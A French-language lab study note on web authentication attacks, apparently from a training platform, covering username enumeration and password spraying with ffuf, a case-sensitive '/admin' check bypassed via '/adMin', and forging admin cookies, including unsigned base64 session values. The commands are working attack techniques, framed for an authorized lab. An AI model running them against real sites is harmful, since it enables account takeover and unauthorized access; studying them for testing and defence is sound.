 # Enumération d’utilisateurs (Username enumeration)

- Objectif : constituer une **liste de noms d’utilisateur valides** à partir d’un message d’erreur révélateur sur la page d’inscription.
- Méthode : automatiser avec **ffuf** en POSTant un formulaire et en recherchant le message d’erreur (`"username already exists"`).
- Exemple de commande :
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt \
     -X POST \
     -d "username=FUZZ&email=x&password=x&cpassword=x" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -u http://MACHINE_IP/customers/signup \
     -mr "username already exists"
```
- Résultat : `valid_usernames.txt` — sert ensuite pour des attaques par force brute ciblées.
# Brute force de logins (credential stuffing / password spraying)

- Objectif : tester une liste de noms valides contre une liste de mots de passe pour trouver des accès.
- Attention éthique : respecter les règles du lab / autorisation.
- Exemple ffuf multi-wordlist (W1 = users, W2 = passwords) :
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
     -X POST \
     -d "username=W1&password=W2" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -u http://MACHINE_IP/customers/login \
     -fc 200
```
Filtre `-fc 200` : n’affiche que les réponses **non** 200 (ou inverse selon logique du site) — à adapter selon comportement de l’application.
# Logic flaws (failles logiques)

- Définition : contournement du flux logique de l’application (ex. bypass d’une vérification d’admin).
- Exemple courant : comparaison sensible à la casse → `if (url.substr(0,6) === '/admin')` peut être contournée avec `/adMin`.
- Conseil : tester variations d’URL, encodages, en-têtes, paramètres inattendus.
# Manipulation de cookies
- Les cookies peuvent contenir des **flags** (ex. `logged_in`, `admin`) en clair. Les éditer peut modifier l’état de la session.
- Exemple (curl) :
```bash
curl http://MACHINE_IP/cookie-test               # Not Logged In
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test   # Logged In As A User
curl -H "Cookie: logged_in=true; admin=true"  http://MACHINE_IP/cookie-test   # Logged In As An Admin (flag possible)
```
# Hashing vs Encoding

- **Hashing** : irréversible (MD5, SHA-1, SHA-256, SHA-512). Même entrée → même sortie. Utilisé pour stocker mots de passe. On peut tenter de "craquer" via tables/rainbow (CrackStation).
    - Exemple MD5 de `1` : `c4ca4238a0b923820dcc509a6f75849b`
- **Encoding** : réversible (base64, base32). Sert à transporter des données lisibles.
    - Exemple cookie base64 :  
        `session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==` → décode en `{"id":1,"admin": false}`
    - On peut modifier la structure JSON, ré-encoder en base64, et renvoyer le cookie pour changer `admin` à `true` si la valeur n’est pas signée.
